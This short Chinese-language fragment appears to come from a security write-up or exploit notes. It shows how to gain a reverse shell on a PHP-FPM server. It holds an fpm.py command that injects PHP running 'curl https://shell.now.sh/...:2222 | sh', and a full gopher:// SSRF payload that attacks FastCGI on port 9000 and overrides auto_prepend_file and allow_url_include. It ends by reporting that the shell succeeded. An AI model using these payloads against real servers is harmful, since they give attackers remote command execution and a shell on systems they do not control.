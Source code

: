 



#### 反弹shell

```sh
python fpm.py -c "<?php system('curl https://shell.now.sh/xxx.xxx.xxx.xxx:2222 | sh'); exit;?>" -p 2333 127.0.0.1 /usr/local/lib/php/PEAR.php
```

![img](assets/gFkgFyH.png)



```
?url=
gopher://127.0.0.1:9000/_%01%01%EA%5E%00%08%00%00%00%01%00%00%00%00%00%00%01%04%EA%5E%01%E7%00%00%0E%02CONTENT_LENGTH75%0C%10CONTENT_TYPEapplication/text%0B%04REMOTE_PORT9985%0B%09SERVER_NAMElocalhost%11%0BGATEWAY_INTERFACEFastCGI/1.0%0F%0ESERVER_SOFTWAREphp/fcgiclient%0B%09REMOTE_ADDR127.0.0.1%0F%1BSCRIPT_FILENAME/usr/local/lib/php/PEAR.php%0B%1BSCRIPT_NAME/usr/local/lib/php/PEAR.php%09%1FPHP_VALUEauto_prepend_file%20%3D%20php%3A//input%0E%04REQUEST_METHODPOST%0B%02SERVER_PORT80%0F%08SERVER_PROTOCOLHTTP/1.1%0C%00QUERY_STRING%0F%16PHP_ADMIN_VALUEallow_url_include%20%3D%20On%0D%01DOCUMENT_ROOT/%0B%09SERVER_ADDR127.0.0.1%0B%1BREQUEST_URI/usr/local/lib/php/PEAR.php%01%04%EA%5E%00%00%00%00%01%05%EA%5E%00K%00%00%3C%3Fphp%20system%28%27curl%20https%3A//shell.now.sh/xxx.xxx.xxx.xxx%3A2222%20%7C%20sh%27%29%3B%20exit%3B%3F%3E%01%05%EA%5E%00%00%00%00
```



反弹shell成功
![img](assets/6K5WePJ.png)
